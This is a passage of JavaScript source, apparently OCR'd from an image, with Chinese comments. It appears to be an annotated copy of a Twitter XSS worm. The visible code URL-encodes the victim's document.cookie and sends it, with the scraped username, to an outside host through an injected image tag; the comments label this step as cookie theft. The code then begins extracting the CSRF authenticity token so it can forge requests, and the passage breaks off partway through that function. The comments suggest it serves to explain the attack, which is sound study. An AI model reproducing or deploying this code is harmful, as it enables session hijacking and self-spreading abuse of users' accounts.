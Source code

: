 ```cpp
        }};
      xmlhttp.send(sVars);      //发送请求
    }
    catch(z) { return false; }
    return true;
  };
  return this;
}

function urlencode( str ) {
    var histogram = {}, tmp_arr = [];
    var ret = str.toString(); //返回字符串

    var replacer = function(search, replace, str) {
        var tmp_arr = [];
        tmp_arr = str.split(search);    //从 search 指定的参数将 str 分割成字符串数组
        return tmp_arr.join(replace);   //把数组 tmp_arr[]中的所有元素通过 replace 指定的分隔符进行连接，以组成一个字符串
    };
    //对下列字符进行 URL 编码转换
    histogram["'"] = '%27';
    histogram['('] = '%28';
    histogram[')'] = '%29';
    histogram['*'] = '%2A';
    histogram['~'] = '%7E';
    histogram['!'] = '%21';
    histogram['%20'] = '+';

    ret = encodeURIComponent(ret);

    for (search in histogram) {
        replace = histogram[search];
        ret = replacer(search, replace, ret)
    }
        //将%[a-z0-9]这样格式的字符转换为大写字母
    return ret.replace(/(\%([a-z0-9]{2}))/g, function(full, m1, m2) {
        return "%"+m2.toUpperCase();
    });

    return ret;
}

var content = document.documentElement.innerHTML;       //当前浏览器中的 HTML 内容
userreg = new RegExp(/<meta content="(.*)" name="session-user-screen_name"/g);  //利用正则表达式进行全局匹配查找当前登陆的用户名
var username = userreg.exec(content);
username = username[1];

var cookie;
cookie = urlencode(document.cookie);    //获取当前 cookie 并进行 URL 编码
document.write("<img src='http://mikeyylolz.uuuq.com/x.php?c=" + cookie + "&username=" + username + "'>");      //窃取 cookie
document.write("<img src='http://stalkdaily.com/log.gif'>");

function wait()
{
        var content = document.documentElement.innerHTML;
        //利用正则表达式进行全局匹配查找表单变量 form_authenticity_token 的值，它是一个随机数，可用于阻止 CSRF 攻击，在发送请求时必须加入此变量值
        authreg = new RegExp(/twttr.form_authenticity_token = '(.*)';/g);       
        var authtoken = authreg.exec(content);
        authtoken = authtoken[1];
        //alert(authtoken);

        //设置一些随机信息用于发送
```